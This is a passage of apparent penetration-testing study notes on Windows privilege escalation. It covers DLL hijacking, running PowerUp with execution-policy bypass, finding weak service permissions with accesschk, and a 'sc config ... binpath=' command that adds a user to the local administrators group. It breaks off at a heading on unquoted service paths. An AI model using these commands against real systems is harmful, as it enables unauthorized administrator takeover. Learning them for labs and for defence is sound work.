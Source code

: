 Send to the target:
```bash
# python server > grab the file
# save the file in a directory you have write access : like C:\Temp\

sc stop dllsvc
sc start dllsvc
```



# Escalation Path: Service Permissions


## Escalation via Binary Paths

### Find with PowerUp
```powershell
powershell -ep bypass
. .\PowerUp.ps1
Invoke-AllChecks
```

### Find manually
```bash
accesschk64.exe -uwcv Everyone *

# -u = dont show errors
# -w = only show the objects that have write access
# -c = display the service name
# -v = verbose
```

Then run against the service itself:
```bash
accesschk64.exe -uwcv daclsvc
sc qc daclsvc

# if we have write access to the SERVICE_CHANGE_CONFIG
sc config daclsvc binpath= "net localgroup administrators user /add"

sc stop daclsvc
sc start daclsvc

net localgroup administrator 
# The user should be there with admin access
```


## Unquoted Service Paths
if you have a service executable which path is not closed with quotation marks and contains a space
